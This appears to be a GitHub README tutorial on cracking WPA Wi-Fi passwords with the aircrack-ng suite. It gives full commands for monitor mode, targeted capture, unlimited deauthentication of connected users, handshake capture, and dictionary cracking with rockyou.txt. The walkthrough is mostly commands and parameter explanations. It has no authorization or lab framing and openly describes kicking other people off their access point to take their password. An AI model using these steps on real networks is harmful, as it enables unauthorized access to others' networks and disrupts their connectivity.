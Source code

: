# WiFi Password Cracking Script

# Step - I
### Put the WiFi - Adapter in Monitor Mode.
Lets start by putting our wireless adapter in monitor mode using <b>Airmon-ng</b> <br/>
Monitor Mode allows us to see all of the wireless traffic that passes by us in the Air. <br/>

Let's open the terminal and type,first
## ifconfig
To check all the wireless adapter such as,look for (<b>wlan0</b>) and then type
## airmon-ng start wlan0
![airmon-ng image](https://miro.medium.com/max/1280/0*qHqeiyD-PVzwPHEs.png) <br/>
if you notice <b>airmon-ng</b> has renamed your adapter <b>wlan0</b> to <b>wlan0mon</b> </br>

# Step - II
Capture Traffic with <b>Airodump-Ng</b> <br/>
Now that our wireless adapter is in monitor mode,we have the capability to see all thte wireless traffic that passes by us in the air.<br/>
We can grab all the traffic by simply using the <b>airodump-ng</b> command.<br/>
This command grabs all the traffic that your wireless adapter can see and display critical information about it.including :- <br/>
<b> -> BSSID (The MAC Address of the Access Point) </b> </br>
<b> -> ESSID (What most of us refer to as the SSID) </b> </br>
<b> -> WiFi Strength ( -PWR ) </b> </br>
<b> -> Number of beacon frame.</b> </br>
<b> -> Number of data frames. </b> </br>
<b> -> (-c) Channel on which nnetwork is broadcasting. </b> </br>
<b> -> Data Transfer Speed. </b> </br>
<b> -> Encryption (if any) </b> </br>

Lets do this by typing.
## airodump-ng wlan0mon
![image](https://3.bp.blogspot.com/-mh7WS9MgYI0/XKxtUKZ9YTI/AAAAAAAADkE/fDRX0thN5HUCJx0jcqRX0hn1h0qPVNKOwCLcBGAs/s1600/decrypt%2BWi-Fi%2Btraffic.png)

All of the visible Access Point (APs) are listed in the upper part of the screen and <br/>
Client are listed in the lower part.

# Step - III
### Focus airodump-ng on one Access Point (AP) & One-Channel (-c)
Next Effort is to focus our effort on one Access Point (AP) and on one channel and Capture critical data from it.

Let's open another terminal and type
## airodump-ng --bssid E8:94:f6:fd:95:D0 -c 5 --write /home/script/wifi_hacking/capture/wpa-cap wlan0mon <br/>

here, <b> E8:94:f6:fd:95:D0 </b> - is the BSSID of the Access Point (AP) <br/>
      <b> -c 5  </b>             - is the channel the AP is Operating On. <br/>
      <b> wpa-cap   </b>         - is the file in which all the captured traffic and handshake will be written to. <br/>
        
<a> As you can see,we're now focusing on capturing data from one Access Point(AP) with the ESSID of Kali on channel 5 </b><br/>

# Step - IV
### Aireplay-ng | Deauthenticate connected client ( kick out the connected users )
In Order to capture the Encrypted passwords we need to have the client authenticate against the Access Point.
If they're already authenticated,wee can de-authenticate them (kick them out) and their system will automatically re-authenticate,
whereby <b> we can grab their encrypted password in the process.</b> <br/>

Let's Open another Terminal.
## aireplay-ng -0 0 -a E8:94:f6:fd:95:D0 wlan0mon 
#### |or else| aireplay-ng --deauth 100 -a E8:94:f6:fd:95:D0 wlan0mon

here,<b> 100 </b> -> is the number of the de-authentication frame you want to send. <br/>
     <b> -0 0</b> -> is the infinite number of de-authentication. <br/>
     <b> E8:94:f6:fd:95:D0 </b> -> is the BSSID of the AP <br/>
     <b> wlan0mon or mon0</b> is the monitoring wireless adapter. <br/>

### Capture the Handshake
At the begining of the Step- IV,we bounced the user of their own Access Point (AP) and now when they re-authenticate,
<b> airodump-ng </b> will attempt to grab their password in the New 4-Way Handshake.

Let's go back to our <b>airodump-ng</b> terminal. <br/>
check to see whether we have successfully got the <b> WPA Handshake</b>

#### [ CH 5 ][ Elapsed : 1 min ][ 2019-04-09 04:58 ][ WPA handshake: E8:94:f6:fd:95:D0 ]
Notice in the top line to the far right <b> airodump-ng </b>says <b> WPA handshake</b>.
#### It Tells us that we were successful in grabbing the Encrypted password.This is the first step to success

# Step - V
### Let's Aircrack-ng that password
Now that we have the Encrypted password in our file named <b>wpa-cap-1.cap</b>,we can run that file against <b>aircrack-ng</b> using 
a password wordlist(.txt) file of our choice("rockyou.txt")

## Remember that this type of Attack is only as good as your password file is! 
I will be using the default password wordlist file included with aircrack-ng on Kali-Linux 2019 named <b>rockyou.txt</b> password list<br/>
we will attempt to crack the password by opening another terminal and typing.
## aircrack-ng -w /home/wordlist/rockyou.txt -b E8:94:f6:fd:95:D0 /root/script/wifi_hacking/capture/wpa-cap-01.cap
here,<b>wpa-cap-01.cap</b> -> is the name of the captured file that was created by the <b>airodump-ng</b> command <br/>
            -w rockyou.txt -> is the password wordlist.
            -b E8:94:f6:fd:95:D0 -> BSSID of the Access Point (AP)
            
 ## How Long will it take!
 This process can be relatively slow and tedious depending upon the length of you password wordlist and<br/>
 also depending on your system.Mine is Dell Vostro 3558, 2.8 Ghz Intel core processor which is capable of testing a little over 500 
 password per seconds.That works out to be about 1.8 million password per hour.
 
 ### When the password is Found it'll appear on the screen.
 ![key found](https://maitroisang.files.wordpress.com/2017/08/screenshot_2017-08-12_04-11-38.png?w=736)
